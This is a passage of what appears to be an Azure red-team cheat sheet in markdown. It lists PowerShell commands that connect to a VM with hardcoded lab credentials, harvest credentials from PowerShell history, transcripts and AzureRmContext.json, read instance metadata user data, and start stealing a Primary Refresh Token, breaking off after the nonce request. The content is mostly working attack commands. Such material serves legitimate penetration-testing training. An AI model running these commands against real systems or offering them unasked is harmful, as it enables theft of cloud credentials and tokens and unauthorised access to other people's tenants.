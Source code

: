 Get-AzNetworkInterface -Name bkpadconnect368

Get-AzPublicIpAddress -Name bkpadconnectIP
```

#### Connect to VM
Now we are a user on the VM and we know the publically addressable IP, we can connect directly to it using PS Remoting
```
$password = ConvertTo-SecureString 'Stud213Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student213', $Password) 
$sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer) 
Enter-PSSession $sess
```


## Interesting File Locations

#### Powershell history - credentials
```
Get-LocalUser
cat C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Powershell Transcript
```
cat C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```

#### AzureRmContext.json - credentials inc Client Secret for Managed Identity
```
cat C:\Users\studentuserx\.Azure\AzureRmContext.json
```


### IMDS
#### VM UserData:
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

### Hybrid
Is is joined to AzureAD?
```
Invoke-Command -Session $infradminsrv -ScriptBlock{dsregcmd /status}
```

* * * 

## Steal Primary Refresh Token
#### Get nonce
```
$TenantId = "<TenantId>"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"
$Params = @{
		"URI" = $URL
		"Method" = "POST"
}
$Body = @{
		"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
```
```